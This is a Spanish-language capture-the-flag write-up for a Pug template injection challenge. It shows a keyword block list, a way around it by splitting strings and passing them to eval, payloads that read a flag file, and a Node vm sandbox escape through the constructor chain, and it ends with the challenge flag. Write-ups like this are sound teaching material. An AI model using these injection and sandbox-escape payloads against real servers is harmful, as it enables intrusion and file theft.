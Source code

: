 # Virtual Mayhem

Podemos insertar plantillas de PugJs y renderizarlas en la pagina, pero existen restricciones

No se pueden usar las siguientes expresiones regulares:

``` javascript
function sanitizeTemplate(template) {
  const forbiddenPatterns = [
    /require/i,
    /process/i,
    /Function/i,
    /global/i,
    /mainModule/i,
    /\bfs\b/i
  ];

  for (const pattern of forbiddenPatterns) {
    if (pattern.test(template)) {
      throw new Error('Forbidden keyword or pattern detected in template.');
    }
  }
```

Esto se puede esquivar separando las palabras y luego agregando el string a un eval

Por ejemplo, se pueden cargar nuevos modulos dinamicamente usando `global.process.mainModule.require('module')`, normalmente en PugJs una variable para el modulo se veria asi:

``` pugjs
- const fsModule = global.process.mainModule.require('fs')
```

Pero debido a que no podemos escrbir 'fs' ni 'mainModule' ni 'global' ni 'process' debemos separarlos y ejecutarlos con un eval:

``` pugjs
- const fm = eval("glb.proc" + "ess.mainMo" + "dule.requi"+ "re('f" + "s')")
```

Con eso podriamos leer la flag y mostrarla en pantalla:
``` pugjs
- const fm = eval("glb.proc" + "ess.mainMo" + "dule.requi"+ "re('f" + "s')")
- const flag = fm.readFileSync('./flag.txt','utf-8')
.p #{flag}
```

Pero no funciona porque la plantilla es ejecutada en una maquina virtual, sin acceso al entorno global:
``` javascript
    const compiledTemplate = pug.compile(userTemplate);
    const vm = new VM({ timeout: 1000, sandbox: { username: "Player" } });
    const output = vm.run(`\`${compiledTemplate({})}\``);
```

- En el contexto de la VM, this normalmente apunta al objeto sandbox proporcionado ({username: "Player"})
- Object.getPrototypeOf(this) obtiene el prototipo de objeto `Object.prototype`
- sandboxPrototype.constructor obtiene el constructor del objeto (normalmente `Object()`) porque los literales de objeto se crean con new Object()
- sandbox.Prototype.constructor.constructor obtiene el constructor del constructor (normalmente `Function()`)
- sandbox.Prototype.constructor.constructor('return this')() Ejecuta la funcion y devuelve this
- `Cuando una función se llama en modo no estricto, su this apunta al objeto global`

Y con eso tenemos acceso a `global`

![2025-03-22-151832_780x488_scrot](https://github.com/user-attachments/assets/d69bc16f-a7c1-4fae-9bd9-e70ee914d97e)

![2025-03-22-151842_766x545_scrot](https://github.com/user-attachments/assets/ddb44833-a944-4724-9395-360d30455f5e)

`MetaCTF{m4st3r1ng_pug_s4ndb0x_3sc4p3}`
